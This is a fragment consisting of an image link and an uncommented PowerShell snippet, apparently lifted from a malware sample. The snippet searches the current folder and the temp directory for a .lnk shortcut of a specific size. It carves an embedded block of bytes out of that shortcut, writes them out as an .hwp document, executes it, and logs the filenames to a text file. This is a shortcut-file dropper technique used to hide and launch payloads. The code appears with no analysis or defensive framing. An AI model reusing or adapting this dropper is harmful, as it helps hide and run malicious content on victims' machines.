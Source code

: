 $lk=ls -Path '.\' -filter '*.lnk';
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
ac -path "C:\Users\user\Downloads\1.txt" $lk
$n=$lk.Replace('.lnk','.hwp');
ac -path "C:\Users\user\Downloads\1.txt" $n
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
ac -path "C:\Users\user\Downloads\1.txt" $lk
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;













